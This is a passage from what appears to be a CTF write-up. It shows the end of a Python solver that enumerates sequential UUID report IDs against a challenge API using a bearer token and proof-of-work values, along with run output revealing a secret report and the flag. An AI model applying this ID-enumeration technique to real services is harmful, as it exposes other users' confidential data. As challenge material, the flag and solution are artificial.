 ```py:solver.py
    rid = f'ad1d3d{hex(i)[2:]}-3830-11ee-b365-0255ac100030' 
    print(f'try rid: {rid}')
    res = requests.get(f'{TARGET}/api/report/{rid}?pow={pow}', headers={'Authorization': f'Bearer {token}'})
    if res.status_code == 200:
      print(res.text)
      break

if __name__ == '__main__':
  register('salt001', 'salt001')
  token = login('salt001', 'salt001')
  import_reputation(token)
  join_program(token, 'ad1cec14-3830-11ee-b365-0255ac100030')
  get_report(token)
```

```sh
$ python solver.py
goal: d2002cc57856dfa6570960e59554d939
pow: 68IaQ
try rid: ad1d3d15-3830-11ee-b365-0255ac100030
goal: e2df116d687cfd9089e7c6447edc7fc0
pow: KXH9X
try rid: ad1d3d16-3830-11ee-b365-0255ac100030
goal: d1b4cd0bdb5ad4e83ccd2d83c713f128
pow: l3PyM
try rid: ad1d3d17-3830-11ee-b365-0255ac100030
goal: dce6863131ca51964a862d2205eda7fe
pow: I6PBv
try rid: ad1d3d18-3830-11ee-b365-0255ac100030
goal: 09e9a4777384b973535ab58884995bb4
pow: w-BS2
try rid: ad1d3d19-3830-11ee-b365-0255ac100030
{"description":"Flag: CTFZone{b0un7y_th3_b4r_th3_t4st3_0f_bug5}","programId":"ad1cec14-3830-11ee-b365-0255ac100030","programName":"CTFZone Private Program","published":1691749220902427748,"severity":"Critical","title":"Very Secret Report~","weakness":"CWE-1"}
```

- FLAG

```text
CTFZone{b0un7y_th3_b4r_th3_t4st3_0f_bug5}
```
